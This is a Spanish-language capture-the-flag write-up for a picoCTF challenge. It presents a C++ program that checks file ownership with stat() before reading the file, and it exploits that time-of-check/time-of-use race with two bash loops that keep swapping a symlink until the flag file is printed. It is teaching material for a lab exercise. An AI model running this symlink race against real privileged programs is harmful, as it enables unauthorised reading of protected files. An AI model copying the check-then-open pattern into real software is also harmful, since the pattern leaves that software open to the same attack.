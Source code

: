 #ctf #pwn 

# Reconocimiento

Nos dan una conexión por [[22-ssh]] a un servidor que contiene un binario que aparentemente permite listar el contenido de un fichero en caso de que nos pertenezca. Además tenemos el código fuente:

```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

# Explotación

## Explicación

De primeras podemos tratar de crear un *enlace simbólico* para que éste si que nos pertenezca, pero el programa utiliza la función **`stat()`** que sigue los enlaces hasta el original.

Si nos fijamos en los *tags* del propio reto, veremos uno que dice **toctou**, que significa *time-of-check time-of-use* y hace referencia a una [[Race Conditions]]. Que aparece porque primero comprueba si el usuario posee el fichero y luego lo lee. Estas dos acciones, durante milisegundos se dan a la vez, permitiéndonos leer el archivo.

## Explotación de la race condition

Lo que debemos hacer es crear un *enlace simbólico* a un archivo que poseemos y rápidamente cambiar dicho enlace para que apunte al archivo que queremos leer. Podemos hacerlo mediante un *one-liner* en [[Bash]]:

```bash
timeout 30s bash -c 'while true; do ln -sf src.cpp flag; ln -sf flag.txt flag; done' &
```
> El `&` ejecuta el comando en segundo plano, permitiéndonos ejecutar la segunda parte.

La segunda parte será otro *one-liner*:

```bash
while ! ./txtreader flag 2> /dev/null | grep "picoCTF"; do :; done
```

Solo nos queda ejecutarlo y después de un tiempo, ocurrirá que se leerá el fichero con la flag.